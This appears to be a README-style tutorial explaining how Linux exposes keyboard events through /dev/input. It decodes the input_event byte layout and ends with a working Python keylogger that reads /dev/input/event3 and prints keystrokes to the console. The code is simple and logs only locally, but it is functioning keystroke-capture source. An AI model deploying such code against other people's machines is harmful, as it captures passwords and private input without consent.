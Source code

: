 #Keyboard Logging

At Linux, nearly every process is controllable and parsable. Today I use that knowledge to write a keyboard logger.

Research starts with "How does a computer parse a keyboard input?"
There is an answer which is X11. [Click here for info]( https://en.wikipedia.org/wiki/X_Window_System#Software_architecture "Click here for info")

X11 reads keyboard inputs from the kernel then parses them for use in an application.
X11's input sources are named "event" and they are stored in /dev/input at Linux OS.
/dev is a kernel directory for listing devices and my input devices (keyboard, mouse, joystick, etc.) listed at /dev/input.

![Img1](/Img/Img1.png)

Computers have different input sources, so I have to look /proc/bus/input/devices file to understand which is my selected device.


    I: Bus=0011 Vendor=0001 Product=0001 Version=ab41
    N: Name="AT Translated Set 2 keyboard"
    P: Phys=isa0060/serio0/input0
    S: Sysfs=/devices/platform/i8042/serio0/input/input3
    U: Uniq=
    H: Handlers=sysrq kbd event3 leds 
    B: PROP=0
    B: EV=120013
    B: KEY=500f02000403 3803078f870d001 feffffdffbefffff fffffffffffffffe
    B: MSC=10
    B: LED=7


As seen my device has a different handler for capturing the input, in that situation I use the event3 handler for keyboard inputs.
Event files are character special file, so they can be readable in real timely.

![Img2](/Img/Img2.png)

I just press the A button on the keyboard and at two windows have an action.
When trying to read the raw output, just get meanless characters.  But 2nd window I can associate some information.
After a lot of tests I notice that structure:


[========]
##Analyzing the Event Output

Raw hexdump output:

```
 2288 60f0 0000 0000 d7e5 0000 0000 0000
 0004 0004 001e 0000 2288 60f0 0000 0000
 d7e5 0000 0000 0000 0001 001e 0001 0000
 2288 60f0 0000 0000 d7e5 0000 0000 0000
 0000 0000 0000 0000 2288 60f0 0000 0000
 312a 0002 0000 0000 0004 0004 001e 0000
 2288 60f0 0000 0000 312a 0002 0000 0000
 0001 001e 0000 0000 2288 60f0 0000 0000
 312a 0002 0000 0000 0000 0000 0000 0000
```


First 4 bytes are repeats every 24 bytes. After decombine, there are 6 unlike input I have.

```
 2288 60f0 0000 0000 d7e5 0000 0000 0000 0004 0004 001e 0000
 2288 60f0 0000 0000 d7e5 0000 0000 0000 0001 001e 0001 0000
 2288 60f0 0000 0000 d7e5 0000 0000 0000 0000 0000 0000 0000

 2288 60f0 0000 0000 312a 0002 0000 0000 0004 0004 001e 0000
 2288 60f0 0000 0000 312a 0002 0000 0000 0001 001e 0000 0000 
 2288 60f0 0000 0000 312a 0002 0000 0000 0000 0000 0000 0000
```

When separate 3 by 3, the 2nd part is unnecessary. (Because I didn't understand why the same signal goes at different times) *
Then I test some variables like time, several buttons, different situations.
I've found that structure;

```
 2288 60f0 0000 0000 d7e5 0000 0000 0000 0004 0004 001e 0000
 ========                       ========                         ==== ==== ========
```

> 1st part is Unix timestamp with hex
>2nd part is microsecond
>3rd part is type signal
>4th part is code
>5th part is value of the signal


Before starting the written script we'd better take a look at these resources for understanding the type codes:
Event types : [Click me](https://github.com/torvalds/linux/blob/8096acd7442e613fad0354fc8dfdb2003cceea0b/include/uapi/linux/input-event-codes.h#L35 "Click me")
Event codes meaning : [Click me](https://www.kernel.org/doc/Documentation/input/event-codes.txt "Click me")
Key Map : [Click me](https://github.com/torvalds/linux/blob/8096acd7442e613fad0354fc8dfdb2003cceea0b/include/uapi/linux/input-event-codes.h#L75-L338 "Click me")


[========]
##The KEyboard Logger Script
Here is my python script


```python
import struct, keymap

event = open("/dev/input/event3", "rb")
inpt = event.read(24)
chk = ['a']									# **


while inpt:
	(uts, msec, typ, code, value) = struct.unpack('llhhi', inpt)

	if typ == 1:
		chk.append(code)
		if chk[-1] != chk[-2]:
			print(keymap.char[code], end='', flush=True)
		else:
			chk = ['a']
			
	elif typ == 17:
		if value == 1: print("ON", end='', flush=True)
		elif value == 0: print("OFF", end='', flush=True)
		
	elif (typ == 4 and code == 4) or typ == 0:
		pass
	else:
		print("type:%d code:%d value:%d" % (typ,code,value))
	inpt = event.read(24)
event.close()
```
###### (**)The chk list does not print the same value to the console, due to unnecessary input data. (Look for *)

First step is to define the structure, I've done it with the struct module.
With struct, I separate the event parts with long,long,short_int,short_int,int structure. **(Line 9)**

Input signal types are controlled with conditions.
When the 1 type code appears that's means the keyboard button is activated. **(Line 11)**
For the 4 and 0 codes, there is a pass because of their types. **(Line 22)**
If a LED trigger button is pressed like CAPSLOCK, NUMLOCK, the 17 code appears and prints the status of the button. **(Line 18)**
There is a problem that will emerge script show their type, code, and value data. **(Line 24)**

I made a class that name is keymap for define code value to keyboard character.
```
char = {
...
	30: "a",
	31: "s",
	32: "d",
```
Last controls are completed value of the value translate to character and print to the console.

Thanks for reading.

![Vid1](/Img/Vid1.mp4)
